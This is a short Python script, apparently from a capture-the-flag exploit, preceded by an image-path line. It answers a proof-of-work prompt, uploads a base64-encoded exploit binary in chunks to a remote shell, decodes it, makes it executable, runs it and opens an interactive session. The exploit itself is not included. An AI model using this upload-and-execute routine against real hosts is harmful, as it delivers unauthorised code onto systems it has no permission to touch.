 ```python
r.sendlineafter("hashcash token:", answer)

exp = open("exp", "rb").read()

payload = base64.b64encode(exp).decode()

size = 1000
for i in range(0, len(payload), 1000):
    r.recvuntil("~ $")
    r.sendline(f"echo -n {payload[i:i+size]} >> /tmp/exp")
    print(i)

r.recvuntil("~ $")
r.sendline("cat /tmp/exp | base64 -d > /tmp/exp2")
r.recvuntil("~ $")
r.sendline("chmod +x /tmp/exp2")
r.recvuntil("~ $")
r.sendline("/tmp/exp2")
r.interactive()
```